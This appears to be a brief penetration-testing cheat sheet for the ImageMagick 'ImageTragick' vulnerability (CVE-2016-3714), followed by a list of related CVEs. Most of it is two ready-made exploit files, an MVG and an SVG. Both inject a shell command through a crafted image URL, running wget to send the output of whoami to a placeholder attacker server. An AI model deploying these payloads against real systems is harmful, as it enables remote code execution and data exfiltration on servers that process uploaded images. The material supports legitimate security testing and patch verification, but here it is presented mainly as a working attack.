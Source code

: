 ImageMagick (CVE-2016–3714)
===========================

There is a vulnerability in ImageMagick, that can lead to RCE. THe vulnerability
description and exploitation are described on the official website [ImageTragick](https://imagetragick.com/).

## Common exploits
`exploit.mvg`

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/x.jpg"|wget http://<server_ip>/$(whoami)'
pop graphic-context
```

`exploit.svg`
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1" xmlns="http://www.w3.org/2000/svg"; xmlns:xlink="http://www.w3.org/1999/xlink";>
	<image xlink:href="https://127.0.0.1/x.jpg&quot;|wget http://<server_ip>/$(whoami)" x="0" y="0" height="640px" width="480px"/>
</svg>
```

## Others vulnerabilities

There is others known vulnerabilities:

- CVE-2016-3718 - SSRF
- CVE-2016-3715 - File deletion
- CVE-2016-3716 - File moving
- CVE-2016-3717 - Local file read
